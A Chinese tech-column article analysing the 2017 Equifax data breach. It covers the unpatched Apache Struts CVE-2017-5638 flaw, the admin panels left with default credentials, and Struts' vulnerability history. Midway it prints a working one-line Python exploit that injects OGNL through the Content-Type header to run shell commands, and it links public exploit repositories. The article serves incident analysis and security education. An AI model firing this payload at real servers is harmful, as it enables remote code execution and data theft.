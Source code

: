 [toc]
# 003 Equifax信息泄露始末

相信你一定有所耳闻，9 月份美国知名征信公司 Equifax 出现了大规模数据泄露事件，致使 1.43 亿美国用户及大量的英国和加拿大用户受到影响。今天，我就来跟你聊聊 Equifax 信息泄露始末，并对造成本次事件的原因进行简单的分析。

# Equifax 信息泄露始末

Equifax 日前确认，黑客利用了其系统中未修复的 Apache Struts 漏洞（CVE-2017-5638，2017 年 3 月 6 日曝光）来发起攻击，导致了最近这次影响恶劣的大规模数据泄露事件。

作为美国三大信用报告公司中历史最悠久的一家，Equifax 的主营业务是为客户提供美国、加拿大和其他多个国家的公民信用信息。保险公司就是其服务的主要客户之一，涉及生命、汽车、火灾、医疗保险等多个方面。

此外，Equifax 还提供入职背景调查、保险理赔调查，以及针对企业的信用调查等服务。由于 Equifax 掌握了多个国家公民的信用档案，包括公民的学前、学校经历、婚姻、工作、健康、政治参与等大量隐私信息，所以这次的信息泄露，影响面积很大，而且性质特别恶劣。

受这次信息泄露影响的美国消费者有 1.43 亿左右，另估计约有 4400 万的英国客户和大量加拿大客户受到影响。事件导致 Equifax 市值瞬间蒸发掉逾 30 亿美元。

根据《华尔街日报》（The Wall Street Journal）的观察，自 Equifax 在 9 月 8 日披露黑客进入该公司部分系统以来，全美联邦法院接到的诉讼已经超过百起。针对此次事件，Equifax 首席执行官理查德·史密斯（Richard Smith）表示，公司正在对整体安全操作进行全面彻底的审查。

事件发生之初，Equifax 在声明中指出，黑客是利用了某个"U.S. website application"中的漏洞获取文件。后经调查，黑客是利用了 Apache Struts 的 CVE-2017-5638 漏洞。

戏剧性的是，该漏洞于今年 3 月份就已被披露，其危险系数定为最高分 10 分，Apache 随后发布的 Struts 2.3.32 和 2.5.10.1 版本特针对此漏洞进行了修复。而 Equifax 在漏洞公布后的两个月内都没有升级 Struts 版本，导致 5 月份黑客利用这个漏洞进行攻击，泄露其敏感数据。

事实上，除了 Apache 的漏洞，黑客还使用了一些其他手段绕过 WAF（Web 应用程序防火墙）。有些管理面板居然位于 Shodan 搜索引擎上。更让人大跌眼镜的是，据研究人员分析，Equifax 所谓的"管理面板"都没有采取任何安保措施。安全专家布莱恩·克雷布斯（Brian Krebs）在其博客中爆料，Equifax 的一个管理面板使用的用户名和密码都是"admin"。

由于管理面板能被随意访问，获取数据库密码就轻而易举了------虽然管理面板会加密数据库密码之类的东西，但是密钥却和管理面板保存在了一起。虽然是如此重要的征信机构，但 Equifax 的安全意识之弱可见一斑。

据悉，Equifax 某阿根廷员工门户也泄露了 14000 条记录，包括员工凭证和消费者投诉。本次事件发生后，好事者列举了 Equifax 系统中的一系列漏洞，包括一年以前向公司报告的未修补的跨站脚本（XSS）漏洞，更将 Equifax 推向了风口浪尖。

# Apache Struts 漏洞相关

Apache Struts 是世界上最流行的 Java Web 服务器框架之一，它最初是 Jakarta 项目中的一个子项目，并在 2004 年 3 月成为 Apache 基金会的顶级项目。

Struts 通过采用 Java Servlet/JSP 技术，实现了基于 Java EE Web 应用的 MVC 设计模式的应用框架，也是当时第一个采用 MVC 模式的 Web 项目开发框架。随着技术的发展和认知的提升，Struts 的设计者意识到 Struts 的一些缺陷，于是有了重新设计的想法。

2006 年，另外一个 MVC 框架 WebWork 的设计者与 Struts 团队一起开发了新一代的 Struts 框架，它整合了 WebWork 与 Struts 的优点，同时命名为"Struts 2"，原来的 Struts 框架改名为 Struts 1。

因为两个框架都有强大的用户基础，所以 Struts 2 一发布就迅速流行开来。在 2013 年 4 月，Apache Struts 项目团队发布正式通知，宣告 Struts 1.x 开发框架结束其使命，并表示接下来官方将不会继续提供支持。自此 Apache Struts 1 框架正式退出历史舞台。

同期，Struts 社区表示他们将专注于推动 Struts 2 框架的发展。从这几年的版本发布情况来看，Struts 2 的迭代速度确实不慢，仅仅在 2017 年就发布了 9 个版本，平均一个月一个。

但从安全角度来看，Struts 2 可谓是漏洞百出，因为框架的功能基本已经健全，所以这些年 Struts 2 的更新和迭代基本也是围绕漏洞和 Bug 进行修复。仅从官方披露的安全公告中就可以看到，这些年就有 53 个漏洞预警，包括大家熟知的远程代码执行高危漏洞。

根据网络上一份未被确认的数据显示，中国的 Struts 应用分布在全球范围内排名第一，第二是美国，然后是日本，而中国没有打补丁的 Struts 的数量几乎是其它国家的总和。特别是在浙江、北京、广东、山东、四川等地，涉及教育、金融、互联网、通信等行业。

所以在今年 7 月，国家信息安全漏洞共享平台还发布过关于做好 Apache Struts 2 高危漏洞管理和应急工作的安全公告，大致意思是希望企业能够加强学习，提高安全认识，同时完善相关流程，协同自律。

而这次 Equifax 中招的漏洞编号是 CVE-2017-5638，官方披露的信息见下图。简单来说，这是一个 RCE 的远程代码执行漏洞，最初是被安恒信息的 Nike Zheng 发现的，并于 3 月 7 日上报。

![img](assets/009ecfbac5741ea7ffd7fa3079a8c8cc.png)

从介绍中可以看出，此次漏洞的原因是 Apache Struts 2 的 Jakarta Multipart parser 插件存在远程代码执行漏洞，攻击者可以在使用该插件上传文件时，修改 HTTP 请求头中的 Content-Type 值来触发漏洞，最后远程执行代码。

说白了，就是在 Content-Type 注入 OGNL 语言，进而执行命令。代码如下（一行 Python 命令就可以执行服务器上的 shell 命令）：

```js hljs language-javascript
import requests

requests.get("https://target", headers={"Connection": "close", "Accept": "*/*", "User-Agent": "Mozilla/5.0", "Content-Type": "%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='dir').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"})

```

在 GitHub 上有相关的代码，链接为：<https://github.com/mazen160/struts-pwn> 或 <https://github.com/xsscx/cve-2017-5638>

注入点是在 JakartaMultiPartRequest.java 的 buildErrorMessage 函数中，这个函数里的 localizedTextUtil.findText 会执行 OGNL 表达式，从而导致命令执行（注：可以参看 Struts 两个版本的补丁"2.5.10.1 版补丁""2.3.32 版补丁"），使客户受到影响。

因为默认情况下 Jakarta 是启用的，所以该漏洞的影响范围甚广。当时官方给出的解决方案是尽快升级到不受影响的版本，看来 Equifax 的同学并没有注意到，或者也没有认识到它的严重性。

另外，在 9 月 5 日和 7 日，Struts 官方又接连发布了几个严重级别的安全漏洞公告，分别是 CVE-2017-9804、CVE-2017-9805、CVE-2017-9793 和 CVE-2017-12611。

这里面最容易被利用的当属 CVE-2017-9805，它是由国外安全研究组织 lgtm.com 的安全研究人员发现的又一个远程代码执行漏洞。漏洞原因是 Struts 2 REST 插件使用带有 XStream 程序的 XStream Handler 进行未经任何代码过滤的反序列化操作，所以在反序列化 XML payloads 时就可能导致远程代码执行。

![img](assets/f8a10b42faf789018e0a5dfadbbd0c02.png)

不过在 Apache 软件基金会的项目管理委员会的回应文章中，官方也对事故原因进行了分析和讨论。首先，依然不能确定泄露的源头是 Struts 的漏洞导致的。其次，如果确实是源于 Struts 的漏洞，那么原因"或是 Equifax 服务器未打补丁，使得一些更早期公布的漏洞被攻击者利用，或者是攻击者利用了一个目前尚未被发现的漏洞"。

根据推测，该声明提出黑客所使用的软件漏洞可能就是 CVE-2017-9805 漏洞，该漏洞虽然是在 9 月 4 日才由官方正式公布，但早在 7 月时就有人公布在网络上了，并且这个漏洞的存在已有 9 年。

相信通过今天的分享，你一定对 Equifax 的数据泄露始末及造成原因有了清楚的了解。欢迎您把你的收获和想法，分享给我。下篇文章中，我们将回顾一下互联网时代的! 其他大规模数据泄露事件，并结合这些事件给出应对方案和技术手段。  
